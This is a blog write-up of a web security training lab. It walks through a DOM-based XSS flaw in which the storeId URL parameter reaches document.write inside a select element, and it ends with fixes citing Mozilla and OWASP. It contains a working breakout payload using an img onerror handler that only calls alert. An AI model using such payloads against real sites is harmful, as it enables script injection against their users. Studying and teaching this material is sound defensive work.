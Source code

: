 +++
draft = false
author = "bloodstiller"
title = "DOM XSS Lab 2: Exploiting document.write with location.search in Select Elements"
keywords = ["DOM XSS", "document.write vulnerability", "location.search exploitation", "cross-site scripting", "JavaScript injection", "select element breakout", "DOM-based XSS", "client-side security", "URL parameter injection", "XSS prevention"] 
tags = ["WebSecurity", "XSS", "DOM", "JavaScript", "document.write", "location.search", "client-side", "injection", "DOM-based", "bug-bounty", "web-exploitation", "OWASP", "security-research"] 
description = "A detailed walkthrough of DOM XSS Lab 2, demonstrating how to exploit document.write sink using location.search source within a select element. Learn about DOM-based cross-site scripting, breaking out of HTML contexts, and client-side JavaScript security vulnerabilities." 
date = 2025-09-29 
toc = true 
bold = true 
next = true 
lastmod = 2025-09-29
+++

## Lab 2: DOM XSS in `document.write` sink using source `location.search` inside a `<select>` element: {#lab-2-dom-xss-in-document-dot-write-sink-using-source-location-dot-search-inside-a-select-element}

> This lab contains a DOM-based cross-site scripting vulnerability in the stock checker. It uses the JavaScript `document.write` function, which writes raw HTML into the page. The function is called with data from `location.search` (the URL query string), which you control. The data is inserted inside a `<select>` element.
>
> To solve this lab, perform a cross-site scripting attack that breaks out of the `<select>` element and calls `alert`.


### Finding an interesting parameter: {#finding-an-interesting-parameter}

-   When we filter for store location, the application uses the query parameter `storeId`.
-   {{< figure src="/ox-hugo/2025-09-29-151741.png" >}}

We should now locate where this parameter is processed in the page’s JavaScript.


### Breaking Down The Source Code: {#breaking-down-the-source-code}

-   Searching the page, we find `storeId` used in the `stockCheckForm` code:
    ![](/ox-hugo/2025-09-29-152034.png)
    ```javascript
     <form id="stockCheckForm" action="/product/stock" method="POST">
       <input required type="hidden" name="productId" value="1">
       <script>
         var stores = ["London","Paris","Milan"];
         var store = (new URLSearchParams(window.location.search)).get('storeId');
         document.write('<select name="storeId">');
         if (store) {
           document.write('<option selected>' + store + '</option>');
         }
         for (var i = 0; i < stores.length; i++) {
           if (stores[i] === store) continue;
           document.write('<option>' + stores[i] + '</option>');
         }
         document.write('</select>');
       </script>
       <button type="submit" class="button">Check stock</button>
    ```


#### Form metadata: {#form-metadata}

```javascript
<form id="stockCheckForm" action="/product/stock" method="POST">
  <input required type="hidden" name="productId" value="1">
```

The form posts to `/product/stock` and includes a hidden `productId=1`.

+Note+: This `productId` is unrelated to the store names; it’s just the product identifier.

The rest of the logic is inside the `<script>` block.


#### Predefined options: {#predefined-options}

```javascript
var stores = ["London","Paris","Milan"];
```

These are the allowed store options shown in the dropdown menu.


#### User-controlled source: {#user-controlled-source}

```javascript
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
```

`URLSearchParams` looks at the page’s query string (that’s `window.location.search`).

`.get('storeId')` pulls out whatever value is set for the `storeId` parameter.

The script then writes that value directly into the page with `document.write`, no escaping or checks, so this means injected HTML/JS can run.


#### Writing to the DOM: {#writing-to-the-dom}

```javascript
if (store) {
  document.write('<option selected>' + store + '</option>');
}
for (var i = 0; i < stores.length; i++) {
  if (stores[i] === store) continue;
  document.write('<option>' + stores[i] + '</option>');
}
document.write('</select>');
```

If `store` has a value, the script writes it into the dropdown as the selected `<option>` using `document.write`.

Next, it adds the built-in stores (`London`, `Paris`, `Milan`) as more `<option>s`, skipping any that `===` match the value of `store`.

Since `store` comes straight from the URL and is written as raw HTML (no encoding), an attacker can inject HTML/JS.


### Exploitation PoC: {#exploitation-poc}

Because `storeId` isn’t sanitized, we can inject our own HTML into the `<select>`.

To prove it’s controllable, first try a harmless value (e.g., `&storeId=bl00dstI113r`).

Result in the DOM (sanity check):
![](/ox-hugo/2025-09-29-155040.png)

Rendered HTML fragment:

```html
<select name="storeId">
  <option selected>bl00dstI113r</option>
  <option>London</option>
  <option>Paris</option>
  <option>Milan</option>
</select>
```

**This is DOM-based XSS because the \*source** is `location.search` (URL input) and the **sink** is `document.write` (HTML output).

The server doesn’t echo our payload. Instead, the browser’s JavaScript takes our URL value and builds the HTML itself, so the attack happens entirely in the DOM.


### Exploitation: triggering an alert {#exploitation-triggering-an-alert}

We need to break out of the `<option>/<select>` context and inject our own element with a JavaScript event, because otherwise the payload stays inside the option’s text, gets treated as plain text (not HTML), and no event handlers or scripts will execute.

The selected option is built as:

-   `'<option selected>' + store + '</option>'`

If we supply a payload that **closes** the current tags and then adds an element with an event handler, we can execute JavaScript.

**Steps**:

1.  Close the current text context by passing a double quote and angle bracket: `">`
2.  Close the `<select>`: `"></select>`
3.  Inject an element with an event handler. A classic is an image that triggers on error: `<img src=1 onerror=alert(1)>`
    -   This works as we are calling an image which does not exist and in the event of an error (which will happen) we will `alert` to the page.
4.  Combined payload:
    `"></select><img src=1 onerror=alert(1)>`
5.  URL-encode spaces if needed (`%20`) →
    `"></select><img%20src=1%20onerror=alert(1)>`

Final PoC (as `storeId`):

-   `storeId="></select><img%20src=1%20onerror=alert(1)>`

Result:
![](/ox-hugo/2025-09-29-162338.png)
![](/ox-hugo/2025-09-29-162430.png)

Injected HTML (simplified view):

```html
<select name="storeId">
  <option selected>"></option>
</select>
<img src="1" onerror="alert(1)">
<option>London</option>
<option>Paris</option>
<option>Milan</option>
<button type="submit" class="button">Check stock</button>
```


### Why This Is Vulnerable: {#why-this-is-vulnerable}

**Primary Issue**: Untrusted data from `location.search` (`storeId` parameter) is inserted into HTML using `document.write` (`store` variable) without encoding.

**How To Fix**:
Don’t use `document.write` for dynamic content. Instead use safer DOM APIs (`createElement`, `textContent`, `appendChild`).

If `document.write` must be used see [mozilla's advisory](https://developer.mozilla.org/en-US/docs/Web/API/Document/write#security_considerations) below. However it is advised to not use it. I would also recommend reading [OWASP DOM based XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html#dom-based-xss-prevention-cheat-sheet)

> The method is a possible vector for Cross-site-scripting (XSS) attacks, where potentially unsafe strings provided by a user are injected into the DOM without first being sanitized. While the method may block `<script>` elements from executing when they are injected in some browsers (see [Intervening against document.write() for Chrome)](https://developer.chrome.com/blog/removing-document-write/), it is susceptible to many other ways that attackers can craft HTML to run malicious JavaScript.
>
> You can mitigate these issues by always passing [TrustedHTML](https://developer.mozilla.org/en-US/docs/Web/API/TrustedHTML) objects instead of strings, and [enforcing trusted type](https://developer.mozilla.org/en-US/docs/Web/API/Trusted_Types_API#using_a_csp_to_enforce_trusted_types) using the [require-trusted-types-for](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/require-trusted-types-for) CSP directive. This ensures that the input is passed through a transformation function, which has the chance to [sanitize](https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/XSS#sanitization) the input to remove potentially dangerous markup (such as [&lt;script&gt;](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/script) elements and event handler attributes), before it is injected.


